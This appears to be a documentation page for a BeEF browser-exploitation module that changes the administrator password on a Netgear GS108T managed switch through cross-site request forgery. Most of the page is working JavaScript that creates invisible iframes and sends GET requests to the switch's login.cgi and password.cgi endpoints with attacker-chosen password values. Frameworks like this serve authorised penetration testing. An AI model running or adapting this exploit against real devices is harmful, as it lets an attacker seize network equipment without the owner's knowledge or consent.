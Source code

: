 ## Summary

* **Objective**: change the password on a Netgear GS108T managed switch
* **Authors**: Bart Leppens
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/switch/netgear_gs108t_csrf)

## Internal Working

Uses invisible iframe with GET requests to change config.

Note: requires the old password.

```js

  var gs_iframe = beef.dom.createInvisibleIframe();
  gs_login = function()  {
     var d = new Date;
     var rtime = (d.getTime() / 500);
     gs_iframe.setAttribute('src', base+'login.cgi?passwd='+oldpassword+'&rtime='+rtime);
  }

  var gs108t_iframe = beef.dom.createInvisibleIframe();
  gs_change_pwd = function() {
     gs108t_iframe.setAttribute('src', base+'password.cgi?inputBox_oldPassword='+oldpassword+'&inputBox_newPassword='+newpassword+'&inputBox_retypeNewPassword='+newpassword);
  }
```

## Feedback
